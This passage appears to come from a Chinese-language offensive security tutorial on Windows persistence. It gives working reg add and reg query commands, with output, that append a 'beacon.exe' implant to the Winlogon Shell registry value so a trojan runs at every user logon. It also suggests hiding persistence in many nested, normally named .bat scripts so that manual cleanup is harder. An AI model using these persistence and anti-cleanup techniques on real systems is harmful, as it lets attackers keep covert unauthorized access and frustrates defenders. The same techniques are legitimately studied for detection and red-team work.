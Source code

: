 清除注册表启动脚本。

```bash
reg delete "HKCU\Environment" /v UserInitMprLogonScript /f
```

PS：既然可以使用 bat 那可以创建几十个 bat 脚本，文件名还都是正常的那种，通过 call 调用其他 bat，一层层调，套娃，让手工难度加大。怎么创建？最好通过 Windows API 来自动化完成这些内容。

#### 2.3.3 WinLogon

[https://www.bilibili.com/video/BV1N841147LY](https://www.bilibili.com/video/BV1N841147LY)

[Windows Persistence Logon Helper Winlogon - Google 搜索](https://www.google.com/search?q=Windows+Persistence+Logon+Helper+Winlogon+&sxsrf=APwXEdeDaz9tt1C2c4Jf83VDWduHRhsLEg%3A1682750954223&ei=6r1MZNSPDZGF2roP-feGkA8&ved=0ahUKEwjUrPzmv87-AhWRglYBHfm7AfIQ4dUDCA8&uact=5&oq=Windows+Persistence+Logon+Helper+Winlogon+&gs_lcp=Cgxnd3Mtd2l6LXNlcnAQAzIFCCEQoAEyBQghEKABMgUIIRCgATIFCCEQoAEyBQghEKABSgQIQRgBUPMBWIsDYOgEaAFwAHgAgAHrAYgBtQOSAQMyLTKYAQCgAQGgAQLAAQE&sclient=gws-wiz-serp)

WinLogon 涉及用户登录时初始化应用和 GUI Shell 的操作，可以通过修改注册表的方式运行正常初始化操作时顺便运行木马：

-   HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Shell，System GUI Shell
-   HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Userinit，初始化用户
-   HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Notify，

因为要修改注册表 HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon 项，需管理员权限，高完整性才能操作。这样好处自然是系统任何用户登录都能获得对应登录用户的权限，如果只是获得当前用户权限，只需将注册表 HKLM 换成 HKCU 注册表则普通用户权限修改即可。

1.Shell

默认值。

```bash
PS C:\Users\gbb> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
    Shell    REG_SZ    explorer.exe
```

设置 Shell 值时，没有指定类型，因为默认字符串类型是 REG\_SZ 这里指定或者不指定都行。设置的值简写 beacon.exe 会在 C:\\WIndows\\System32 目录找，因此需要把 beacon.exe 放到此目录内，不过防止需要管理员权限操作，为了省事当然放到其他目录中写绝对路径。使用 /f 选项是因为值已经存在要覆盖原有值。

```bash
PS C:\Users\123> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, beacon.exe" /f
操作成功完成。
PS C:\Users\123> reg query  "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    Shell    REG_SZ    explorer.exe, beacon.exe
```

重新登录获得权限。

![WinLogin 进程运行状态.png](assets/1708583418-1dd7d6f538a127b3bf904d5b93d8e87a.png)
